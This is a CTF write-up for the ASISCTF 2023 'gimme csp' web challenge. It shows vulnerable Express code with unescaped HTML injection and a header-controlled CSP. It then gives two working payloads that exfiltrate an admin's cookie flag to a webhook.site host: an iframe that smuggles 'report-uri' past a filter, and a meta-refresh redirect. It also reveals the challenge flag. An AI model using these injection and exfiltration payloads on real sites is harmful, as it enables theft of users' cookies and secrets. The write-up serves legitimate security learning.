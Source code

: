 ```yaml
---
title: gimme csp
date: 2024-01-08
tags: web
categories: ASISCTF 2023
---
```


written by {% person hartmannsyg %}

This was the *warm-up* web challenge of ASISCTF 2023 **finals**, but personally I found this to be quite hard. I didn't solve this in time but I'll just write the solution here anyways.

> hint for beginners: read about CSPs and iframes and what features they can offer that you can use to *bypass* or *exfiltrate* things. The challenge isn't easy if you are new to CTFs or don't have much experience however it *should* be the easiest web challenge.

{% ccb %}
website: https://gimmecsp.asisctf.com
Admin bot: http://18.195.96.13:8001
{% endccb %}

## Intended Solution - csp violation report

The website code is as follows:
{% ccb lang:js gutter1:1-21 caption:index.js highlight:9 %}
const express = require('express')
const cookieParser = require('cookie-parser')

const app = express()
app.use(cookieParser())
app.use((req,res,next)=>{
	res.header(
		'Content-Security-Policy',
		[`default-src 'none';`, ...[(req.headers['sec-required-csp'] ?? '').replaceAll('script-src','')]] 
	)
	if(req.headers['referer']) return res.type('text/plain').send('You have a typo in your http request')
	next()
})

app.get('/',(req,res)=>{
	let gift = req.cookies.gift ?? 'ASIS{test-flag}'
	let letter = (req.query.letter ?? `You were a good kid in 2023 so here's a gift for ya: $gift$`).toString()
	res.send(`<pre>${letter.replace('$gift$',gift)}</pre>`)
})

app.listen(8000)
{% endccb %}

Firstly, you are simply able to inject html into https://gimmecsp.asisctf.com site. 

E.g. `https://gimmecsp.asisctf.com/?letter=<h1>a</h1>` gives

```html
<pre><h1>a</h1></pre>
```

`https://gimmecsp.asisctf.com/` has:
{% ccb %}
Content-Security-Policy: default-src 'none';
{% endccb %}
so it seems virtually impregnable. However, in the highlighted line in the above code box, we see that the `sec-required-csp` headers get stripped of all `script-src`, which allows us to sneak in some csp.

Normally, in a iframe, it is [impossible to specify the `report-uri` or `report-to` csps](https://w3c.github.io/webappsec-cspee/#csp-attribute). However, if we do something sneaky like:
{% ccb html:true %}
rep<span class='keyword'>script-src</span>ort-uri
    ⬇️
report-uri
{% endccb %}

so we can craft a payload that sneaks in the report-uri:

{% ccb lang:html wrapped:true %}
<iframe referrerpolicy="no-referrer" src='https://gimmecsp.asisctf.com/?letter=<img src="$gift$">' csp="default-src 'none'; repscript-srcort-uri https://webhook.site/<hook>"></iframe>
{% endccb %}

The CSP then becomes:
{% ccb %}
Content-Security-Policy: default-src 'none'; report-uri https://webhook.site/<hook>
{% endccb %}

The report-uri *reports* any violation of csp to the specified url. In this case, we are violating csp by accessing `/$gift`, which is processed to `/ASIS{test-flag}` or to the real flag on the admin bot. So we will receive 

We then host a html document that has the following payload, report it to the admin bot and in our webhook we get:
{% ccb lang:json gutter1:1-15 highlight:9 %}
{
  "csp-report": {
    "document-uri": "https://gimmecsp.asisctf.com/?letter=%3C/pre%3E%3Cimg%20src=%22$gift$%22%3E",
    "referrer": "",
    "violated-directive": "img-src",
    "effective-directive": "img-src",
    "original-policy": "default-src 'none'; report-uri https://webhook.site/<hook>",
    "disposition": "enforce",
    "blocked-uri": "https://gimmecsp.asisctf.com/ASIS%7B1m-n07-r34dy-f0r-2024-y3t-dfadb%7D",
    "line-number": 1,
    "source-file": "https://gimmecsp.asisctf.com/",
    "status-code": 200,
    "script-sample": ""
  }
}
{% endccb %}

the flag is `ASIS{1m-n07-r34dy-f0r-2024-y3t-dfadb}`

## `<meta>` redirect solution

CSPs cannot block meta redirects, so submitting something like `https://gimmecsp.asisctf.com/?letter=<meta http-equiv="refresh" content="0; url=https://webhook.site/<hook>/$gift$">` will create the following html:

```html
<pre><meta http-equiv="refresh" content="0; url=https://webhook.site/<hook>/ASIS{test-flag}"></pre>
```

and redirect to `https://webhook.site/<hook>/ASIS{test-flag}`, giving us the flag (the `test-flag` will be replaced with the real flag when submitted to the admin bot)